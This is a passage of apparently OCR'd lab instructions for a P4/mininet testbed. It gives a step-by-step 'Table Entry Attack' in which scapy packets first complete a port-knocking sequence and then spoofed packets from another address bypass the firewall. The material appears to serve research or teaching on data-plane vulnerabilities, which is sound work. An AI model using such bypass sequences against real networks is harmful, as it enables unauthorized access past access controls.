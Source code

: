             rep = self.stub.GetForwardingPipelineConfig(req)
            print(rep)
            return rep.config.p4info
        ```

**For the Table Entry Attack**:

1. Open a new terminal window and run ``tcpdump`` on ``h2`` in the ``mininet`` container.
    ```bash
    sudo docker exec -it mininet /bin/bash
    ../mininet/host-cmd h2
    tcpdump tcp
    ```
2. Open a second new terminal window and run ``scapy``. 
     ```bash
    sudo docker exec -it mininet /bin/bash
    apt-get update && apt-get install scapy python-setuptools
    ../mininet/host-cmd h1c
    scapy
    ```
3. Send the following sequence of packets through ``leaf1`` to allow firewall bypass for a source IP address that correctly follows the knock sequence.
    ```python
    sendp(Ether()/IP(src="192.168.1.121", dst="192.168.1.123")/TCP(sport=135,dport=10,chksum=46), iface='h1c-eth0')
    sendp(Ether()/IP(src="192.168.1.121", dst="192.168.1.123")/TCP(sport=135,dport=10,chksum=46), iface='h1c-eth0')
    sendp(Ether()/IP(src="192.168.1.121", dst="192.168.1.123")/TCP(sport=135,dport=20,chksum=46), iface='h1c-eth0')
    sendp(Ether()/IP(src="192.168.1.121", dst="192.168.1.123")/TCP(sport=135,dport=30,chksum=46), iface='h1c-eth0')
    ```
4. Send the following attack packets to demonstrate how the firewall is now bypassed by packets from `192.168.1.122` without the knock sequence being followed.
    ```python
    sendp(Ether()/IP(src="192.168.1.122", dst="192.168.1.123")/TCP(sport=135,dport=30,chksum=46), iface='h1c-eth0')
    sendp(Ether()/IP(src="192.168.1.122", dst="192.168.1.123")/TCP(sport=135,dport=30,chksum=46), iface='h1c-eth0')
    ```
    **Note**: It is crucial to send the packets in the sequence described above. If packets from `192.168.1.122` are sent through `leaf1` before another IP address is granted legitimate firewall access, the attack will fail.

